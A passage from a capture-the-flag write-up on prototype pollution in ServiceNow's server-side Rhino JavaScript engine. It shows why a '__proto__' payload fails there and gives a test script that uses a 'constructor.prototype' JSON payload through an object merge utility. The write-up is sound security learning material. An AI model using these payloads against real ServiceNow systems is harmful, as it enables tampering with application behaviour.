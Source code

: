 **Result:**
```
*** Script: [*] Payload JSON object: {"foo":"bar", "__proto__":{"polluteTarget":"polluted"}}  
*** Script: [*] Before polluted: undefined  
*** Script: [*] Before merged form_data: {}  
*** Script: [*] After polluted: undefined  
*** Script: [*] After merged form_data: {"foo":"bar","__proto__":{"polluteTarget":"polluted"}}
```

Umm... Wait... It should be polluted, right?? Why attribute `polluteTarget` is still `undefined`, and the merged `form_data` object has `"__proto__":{"polluteTarget":"polluted"}`??

After the CTF has ended, the author of this challenge says this:

![](https://github.com/siunam321/CTF-Writeups/blob/main/San-Diego-CTF-2024/images/Pasted%20image%2020240513212237.png)

> Rhino is a JavaScript engine written fully in Java and managed by the Mozilla Foundation as open source software. It is separate from the SpiderMonkey engine, which is also developed by Mozilla, but written in C++ and used in Mozilla Firefox - [https://en.wikipedia.org/wiki/Rhino_(JavaScript_engine)](https://en.wikipedia.org/wiki/Rhino_(JavaScript_engine))

TLDR: Rhino is another JavaScript engine and [ServiceNow is using it in the server-side](https://www.servicenow.com/community/developer-articles/discover-the-benefits-of-ecmascript-how-es12-can-enhance/ta-p/2419996).

According to [Rhino documentation archive](https://www-archive.mozilla.org/rhino/overview), **`__proto__` is deprecated** long time ago:

> [...]The deprecated features are the `__proto__` and `__parent__` properties, and the constructors `With`, `Closure`, and `Call`. Attempts to invoke these constructors with the language version 1.4 will result in an error.[...]

Hmm... I guess maybe that's why `__proto__` didn't polluted attribute `polluteTarget`.

Luckily, there's an alternative: **`constructor.prototype`**. It's basically same as `__proto__` but in a different name.

**Let's try to use `constructor.prototype`!**
```javascript
var now = new global.ServiceNowObjectUtils();
var form_data = {}

// {
//     "foo": "bar",
//     "constructor":
//     {
//         "prototype":
//         {
//             "polluteTarget": "polluted"
//         }
//     }
// }
meta = '{"foo":"bar", "constructor":{"prototype":{"polluteTarget":"polluted"}}}';
gs.log("[*] Payload JSON object: " + meta);

gs.log("[*] Before polluted: " + JSON.stringify(Object.prototype.polluteTarget));
gs.log("[*] Before merged form_data: " + JSON.stringify(form_data));

now.merge(form_data, JSON.parse(meta));

gs.log("[*] After polluted: " + JSON.stringify(Object.prototype.polluteTarget));
gs.log("[*] After merged form_data: " + JSON.stringify(form_data));
```
